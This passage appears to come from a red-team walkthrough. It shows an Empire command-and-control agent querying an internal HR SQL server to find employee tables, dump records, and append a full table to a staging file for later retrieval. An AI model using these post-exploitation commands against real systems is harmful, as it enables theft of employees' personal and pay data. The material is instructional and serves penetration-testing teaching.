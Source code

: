 Note: *here is a very useful collection of SQL queries useful in a pentest:* <https://pentestmonkey.net/cheat-sheet/sql-injection/mssql-sql-injection-cheat-sheet>

HR_master appears to be the most reasonable choice. To locate tables containing relevant information such as employee data, we perform a search using a wildcard character (%) to match any table names that include the keyword employee.

SQL query:

```
SELECT table_name 
FROM hr_master.information_schema.tables 
WHERE table_type = 'base table' 
AND table_name LIKE '%employee%'
```

Empire command:

```
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40" -Database "HR_master" -Query "SELECT table_name FROM hr_master.INFORMATION_SCHEMA.TABLES WHERE table_type = 'base table' AND table_name LIKE '%employee%'" | out-string
Job started: Debug32_azd0k
table_name
-----------------------
HR_Employee_DE_Full
HR_Employee_wages_ref
HR_Employee_raise
HR_Employee_eval
HR_Employee_perf
[...]
```

Before dumping an entire table, it’s wise to understand the structure and content of the table. Here, we query the Employee_GB_Full table to inspect its columns and sample data.

```
SELECT * FROM hr_master..Employee_GB_Full
```

Empire command:

```
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40" -Database "HR_master" -Query "SELECT * FROM hr_master..Employee_GB_Full" | out-string
Job started: Debug32_azd0k
empno     : 166
ename     : SCHMIDT
job       : DESIGNER
mgr       : 6
hiredate  : 12/17/2016 12:00:00 AM
```

To save the output of the SQL query to a file for later analysis, we append the Out-File PowerShell command. This ensures that the data is written to a specified file without altering or deleting any existing content:

```
(Empire: HRAgent) > scriptcmd Invoke-SqlCommand -Server "10.40.40.40" -Database "HR_master" -Query "SELECT * FROM hr_master..Employee_GB_Full" | Out-File -Append C:\users\svc_ps\appdata\local\out.txt
```
